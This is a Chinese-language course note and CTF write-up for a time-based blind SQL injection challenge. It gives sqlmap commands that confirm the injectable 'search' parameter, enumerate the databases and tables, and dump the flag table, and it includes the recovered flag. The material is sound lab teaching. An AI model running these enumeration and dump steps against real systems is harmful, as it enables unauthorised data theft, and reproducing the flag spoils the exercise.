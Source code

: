 ```yaml
---
created: 2025-04-07T19:20:00+08:00
modified: 2025-04-13T23:54:58+08:00
tags:
  - PhD/Course/Systems_Security
title: 攻击-SQL 5
---
```


> [!QUESTION]
> 本题考察通过时间盲注 (Time-Based Blind SQL Injection) 技术绕过关键字过滤, 利用服务器响应时间的差异提取数据库敏感信息并获取 FLAG. 学生需掌握时间盲注原理, 编写自动化脚本逐步爆破数据库名、表名、列名, 最终提取 FLAG.

#### **解题步骤**

##### **1. 确认注入点**

使用 `sqlmap` 检测 `POST` 参数 `search` 是否存在时间盲注漏洞:

```sh
sqlmap --url="http://e6347821-25f1-4422-bdea-148a000b63fb.1.2024.thudart.com/index.php" --method="POST" --data="search=answer" --technique="T"
```

**结果:** 确认 `search` 参数存在时间盲注漏洞, 后端数据库为 **MySQL**..

##### **2. 爆破数据库名**

通过 `--dbs` 参数获取所有数据库名:

```sh
sqlmap [...] --dbs
```

**结果:** 发现两个数据库:

```
[*] information_schema
[*] user_data
```

##### **3. 爆破表名**

指定目标数据库 `user_data`, 使用 `--tables` 获取表名:

```sh
sqlmap [...] --tables -D "user_data"
```

**结果:** 发现两个表:

```
+-------+
| ff1lg |
| info  |
+-------+
```

##### **4. 提取目标表数据**

对可疑表 `ff1lg` 使用 `--dump` 导出数据:

```sh
sqlmap [...] --dump -D "user_data" -T "ff1lg"
```

**结果:** 成功提取 FLAG:

```
+----+--------------------------------------+
| id | flag                                 |
+----+--------------------------------------+
| 0  | f3978751-f792-4498-8f27-08afc790371a |
+----+--------------------------------------+
```
